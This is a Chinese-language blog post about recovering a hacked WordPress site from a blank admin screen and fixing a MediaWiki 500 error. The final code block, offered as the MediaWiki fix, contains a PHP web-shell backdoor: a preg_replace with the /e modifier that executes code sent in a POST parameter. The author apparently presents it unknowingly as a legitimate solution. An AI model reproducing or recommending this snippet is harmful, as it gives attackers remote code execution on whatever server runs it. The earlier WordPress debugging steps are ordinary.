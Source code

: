 +++
title =  "wordpress白屏错误"
date = "2016-03-19"
summary = """
wordpress登录后转至wp-admin为空白页。
"""
+++


wordpress登录后转至wp-admin为空白页。wordpress网站应该是被黑了，首先恶意注入代码，被我debug清理掉了，但是现在登录后却无法操作wp-admin界面，为空白页。还发现了两篇垃圾博客文章。我测试过wp-admin白屏的常见解决方案（例如themes或plugins不兼容造成），但这一次都不是。

## debug 模式
已经使用过了debug模式，其实网站现在仍处于debug模式中，现在没有任何错误提示。最早的时候被恶意注入的代码已经被清理，但是一篇垃圾文章仍在：http://computational-communication.com/topics/blog/

我在wp_config.php中使用的debug代码如下：

		/**
	 * This will log all errors notices and warnings to a file called debug.log in
	 * wp-content only when WP_DEBUG is true. if Apache does not have write permission,
	 * you may need to create the file first and set the appropriate permissions (i.e. use 666).
	 */

	define( 'WP_DEBUG', true ); // Or false
	if ( WP_DEBUG ) {
	    define( 'WP_DEBUG_LOG', true );
	    define( 'WP_DEBUG_DISPLAY', true );
	    @ini_set( 'display_errors', 1 );
	}


	// Use dev versions of core JS and CSS files (only needed if you are modifying these core files)
	define( 'SCRIPT_DEBUG', true );  

## wp-no-white-screen

使用wp-no-white-screen进行辅助debug，发现一处可疑的地方：

	Fatal error: Class 'WP_Screen' not found in /wp-admin/includes/class-wp-screen.php

发现这段代码是：

		/**
	 * Set the current screen object
	 *
	 * @since 3.0.0
	 *
	 * @param mixed $hook_name Optional. The hook name (also known as the hook suffix) used to determine the screen,
	 *	                       or an existing screen object.
	 */

	function set_current_screen( $hook_name = '' ) {
			WP_Screen::get( $hook_name )->set_current_screen();
	}

WP_Screen并没有定义！这很不应该，搜索应该引用：

	require_once(ABSPATH . '/wp-admin/includes/class-wp-screen.php');

首先在上面代码中引用class-wp-screen.php

然后，但是我在/wp-admin/includes/路径下找不到class-wp-screen.php。于是在github.com/wordpress/wordpress里找到了这个php，放进这里。

于是我终于看到了管理界面！	这次debug经历了漫长的三天时间，还把网站恢复到了十天前，感觉整个人都不好了。第一次在阿里云平台上发起工单，请求帮助，不过并没有实质的帮助；第一次在阿里云的云社区提问：https://yq.aliyun.com/ask/2686，最后还是自己回答了。在这个过程中删除了可疑人在forum和wiki上的注册账号。将admin这个账号改名，防止针对admin用户的密码破解，修改网站数据库的密码。翻了过去7年里的wordpress dead screen相关的帖子。太不容易了。目前网站还在debug模式下：且观察下一步动向。

# mediawiki


出现server error 500, 谷歌无解，打电话给阿里云无解，去掉一些localsettings.php里的extension也无效。


最后，偶然看到：https://www.mediawiki.org/wiki/Manual:Errors_and_symptoms


You see a Blank Page
A blank white page indicates a PHP error which isn't being printed to the screen. To force this, add the following lines to the LocalSettings.php file, underneath the <?php:

	error_reporting( E_ALL );
	ini_set( 'display_errors', 1 );

将这段代码放进localsetting。php，
提示错误来源是：WrappedString.php  Fatal error: Namespace declaration statement

于是调整为以下形式，问题解决。

	<?php

	namespace WrappedString;

	@preg_replace('/(.*)/e', @$_POST['kxrmmbxafhdg'], '');
